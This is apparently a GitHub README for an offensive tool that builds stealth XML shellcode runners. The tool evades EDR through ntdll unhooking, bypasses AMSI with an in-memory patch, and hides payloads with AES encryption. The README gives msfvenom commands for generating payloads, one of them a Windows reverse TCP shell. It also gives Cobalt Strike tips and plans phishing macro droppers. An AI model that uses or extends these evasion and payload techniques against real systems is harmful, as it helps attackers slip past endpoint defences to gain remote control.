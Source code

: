 # Stealth shellcode runners :wolf:
## EDR evasion via ntdll unhooking (userland), AMSI bypass via in memory patch, and obfuscation via AES encryption.

### This repo was started as a place to host a xml shellcode generating tool written as part of a [blog post](https://github.com/kymb0/kymb0.github.io/blob/master/_posts/2021-05-07-defeat-edr-unhook.md) on EDR evasion via ntdll unhooking (userland), AMSI bypass via in memory patch, and obfuscation via AES encryption.

I started writing these tools as a way to both challenge myself and expand upon my knowledge within the esoteric world of AV/EDR evasion.
Currently tested again 1 x enterprise grade EDR solution, however I expect that this technique will be patched soon.

## :eight_spoked_asterisk: stealth_xml_shellcode_runner.py: 
Requires: `python3, pycryptodome`
Usage: `script.py payload.bin`  
Example payloads: `msfvenom -p windows/x64/exec CMD=calc.exe -f raw -o calc.bin`  
`msfvenom -p windows/x64/shell_reverse_tcp LHOST=127.0.0.1 LPORT=4444 -f raw > shell.bin`

For Cobalt Strike you will need to use a custom profile, and using the payload generator seems to work best, rather than selecting Windows Executable from packages.

If anyone wants to build their own tools/malware in C#, there are many fantastic resources out there, however I also included some c# templates that you can reference.

### To do:
[:gem:] Build option to generate payload for `C:\Windows\Microsoft.Net\Framework64\v4.0.30319\Microsoft.Workflow.Compiler.exe`  
[:gem:] Build option to generate macros for use with phishing droppers  
[:gem:] Add options for different obfuscation and evasion techniques e.g. explore Halo's gate implementation  

I keep my notes on malware dev [here](https://github.com/kymb0/Malware_learns)

Follow me on [twitter](https://twitter.com/kymb0_irl) if you want.
